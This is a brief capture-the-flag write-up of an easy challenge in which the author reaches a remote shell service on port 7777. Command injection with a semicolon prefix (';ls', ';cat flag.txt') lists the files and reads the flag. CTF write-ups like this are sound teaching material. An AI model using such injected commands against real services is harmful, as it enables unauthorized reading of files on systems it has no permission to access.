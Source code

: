 # EZ CTF

## Pwn

### Mario bros!

**Difficulty:** Easy

**Statement:** Read the flag!  

***

For this challenge, you need to connect to the remote server on port 7777.

Once connected, we are on a bash shell with the return command `Are you root?

Sending a single value or command closes the shell and the connection to the server.

So I'm just trying to add a `;` to inject a command: `;ls`

```
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
```

I just have to read the content of the file **flag.txt**: `;cat flag.txt`

```
EZ-CTF{UNSECUR3_B4SH}
```

Flag: EZ-CTF{UNSECUR3_B4SH}
